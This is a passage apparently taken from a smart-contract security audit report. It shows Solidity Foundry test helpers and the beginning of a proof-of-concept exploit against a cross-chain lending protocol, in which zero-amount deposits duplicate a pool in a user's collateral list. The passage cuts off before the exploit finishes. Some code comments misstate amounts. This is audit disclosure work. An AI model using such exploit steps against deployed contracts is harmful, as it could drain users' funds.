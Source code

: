 ```js
            vm.prank(sender);
            spokeAvax.deposit{value: _amount}(DUMMY_MESSAGE_PARAMS, _accountId, _loanId, _amount);
            // spoke.deposit(DUMMY_MESSAGE_PARAMS, _accountId, _loanId, _amount);
        }

        function _withdraw(address sender, bytes32 _accountId, bytes32 _loanId, uint8 _poolId, uint256 _amount, bool isFAmount) internal {
            vm.prank(sender);
            spokeCommon.withdraw(DUMMY_MESSAGE_PARAMS, _accountId, _loanId, _poolId, CHAIN_ID, _amount, isFAmount);
        }

        function _repay(bytes32 _accountId, bytes32 _loanId, uint256 _amount, SpokeToken spoke, uint256 maxOverRepayment) internal {
            vm.prank(bob);
            spoke.repay(DUMMY_MESSAGE_PARAMS, _accountId, _loanId, _amount, maxOverRepayment);
        }

        function _getMsgId() internal view returns (bytes32) {
            uint256 s = adapter.sequence();
            return keccak256(abi.encodePacked(PREFIX, s));
        }

        function _checkSeccuss(bytes32 msgId) internal {
            vm.expectEmit();
            emit BridgeRouter.MessageSucceeded(1, msgId);
        }

        function _checkMessageSeccuss() internal {
            // vm.exepctEmit(true,false,false);
            // emit BridgeRouter.MessageSuccess(0,"");
        }
    }

```

2. Second File (includes the poc): test/pocs/forktest.t.sol

```js
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.19;

    import "./base_test.sol";
    import "@forge-std/console.sol";

    contract Pocs_1 is baseTest {
        function test_poc_1() public {
            vm.startPrank(LISTING_ROLE);
            loanManager.updateLoanPoolCaps(2, hubPoolUsdc.getPoolId(), 100000e6, 10000e6);
            hubPoolUsdc.updateCapsData(HubPoolState.CapsData(type(uint64).max, type(uint64).max, 1e18));
            vm.stopPrank();

            // @audit bob deposits 2000 usdc
            uint256 bobDeposit = 2000e6; // 20 USDC
            _approveUsdc(bob, address(spokeUsdc), bobDeposit);
            _deposit(bob, bobAccountId, bobLoanIds[0], bobDeposit, spokeUsdc);
            // @audit alice deposit 0 amount two times to push the poolId to it's collateral array twice :
            uint256 aliceBalanceBefore = IERC20(USDC_TOKEN).balanceOf(alice);
            _deposit(alice, aliceAccountId, aliceLoanIds[0], 0, spokeUsdc);
            _deposit(alice, aliceAccountId, aliceLoanIds[0], 0, spokeUsdc);
            // @audit alice deposit 1000e6 usdc to the same pool :
            uint256 largeUsdcDeposit = 1000e6; // 10 USDC
```